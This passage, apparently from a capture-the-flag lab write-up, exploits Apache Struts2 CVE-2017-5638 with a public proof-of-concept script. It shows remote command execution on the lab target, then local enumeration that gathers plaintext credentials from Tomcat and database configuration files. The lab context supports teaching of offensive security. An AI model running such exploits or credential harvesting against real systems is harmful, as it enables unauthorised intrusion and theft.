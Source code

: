 ### CVE-2017-5638

The highest rated vulnerabilities on the cvedetails list was CVE-2017-5638,
which has a 10. It’s also one said to have been used on Equifax. There’s a
[POC python script on the metasploit
github](https://github.com/rapid7/metasploit-framework/issues/8064).

    
    
    root@kali# python cve-2017-5638.py http://10.10.10.64/Monitoring/example/Welcome.action "ls -l"
    [*] CVE: 2017-5638 - Apache Struts2 S2-045
    [*] cmd: ls -l
    
    total 16
    lrwxrwxrwx 1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
    -rw-r--r-- 1 root    root      68 Oct  2  2017 db_connect
    drwxr-xr-x 2 tomcat8 tomcat8 4096 Sep  3  2017 lib
    lrwxrwxrwx 1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
    drwxr-xr-x 2 root    root    4096 May  2 04:46 policy
    drwxrwxr-x 4 tomcat8 tomcat8 4096 Feb 10 21:12 webapps
    lrwxrwxrwx 1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8
    
    root@kali# python cve-2017-5638.py http://10.10.10.64/Monitoring/example/Welcome.action "id"
    [*] CVE: 2017-5638 - Apache Struts2 S2-045
    [*] cmd: id
    
    uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)
    

w00t! Code execution.

## Local Enumeration

At this point, we’d like to get a better shell, and we’d like to get a user
with more privilege. Here’s what we can find:

  * Low priv user, tomcat8, can’t access a lot
  * There is a home dir for richard
  * In `/etc/tomcat8/tomcat-users/xml`, there’s a username and password: 
    * `<user username="teampwner" password="cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$" roles="manager-gui,admin-gui" />`
    * those creds don’t seem to work on the `/manager` path as expected
  * Outbound traffic is heavily filtered - not able to `wget` or `nc` to attacker box
  * `ifconfig`, `netstat`, `curl` not on host –> maybe container? just stripped down?
  * more creds in local dir, `/var/lib/tomcat8/db_connect`: 
    
          [ssn]
      user=ssn_admin
      pass=AWs64@on*&
        
      [users]
      user=admin
      pass=admin
    

  * `/proc/net/arp` shows other hosts:
    